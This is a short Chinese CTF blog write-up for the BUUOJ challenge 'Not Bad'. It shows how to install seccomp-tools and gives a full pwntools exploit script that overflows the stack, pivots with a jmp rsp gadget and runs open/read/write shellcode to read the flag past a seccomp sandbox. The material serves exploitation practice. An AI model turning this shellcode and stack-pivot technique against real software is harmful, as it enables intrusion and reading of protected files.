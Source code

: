 ```yaml
---
title: orw
tags: [ctf-pwn,stack]
date: 2023-10-18 18:11:00
categories: [ctf-pwn]
excerpt: 沙箱保护机制
---
```


##### 安装seccomp

```shell
sudo apt install gcc ruby-dev
gem install seccomp-tools
```

<https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Not%20Bad>

![](/img/orw/1.jpg)



```python
from pwn import *
#p = process("./bad")
p=remote("node4.buuoj.cn",28003)

context(arch='amd64', os='linux')
mmap=0x123000
jmp_rsp = 0x400A01
orw_payload = shellcraft.open("./flag")
orw_payload += shellcraft.read(3, mmap, 0x50)
orw_payload += shellcraft.write(1, mmap,0x50)

payload=asm(shellcraft.read(0,mmap,0x100))+asm('mov rax,0x123000;call rax')
payload=payload.ljust(0x28,b'\x00')
payload+=p64(jmp_rsp)+asm('sub rsp,0x30;jmp rsp')
# ret的时候，相当于pop rip，rsp就会指向返回地址下一个栈参数，也就是说，jmp rsp之后，就会执行sub rsp,0x30

p.recvuntil('Easy shellcode, have fun!')
p.sendline(payload)

shellcode=asm(orw_payload)
p.sendline(shellcode)
p.interactive()
```

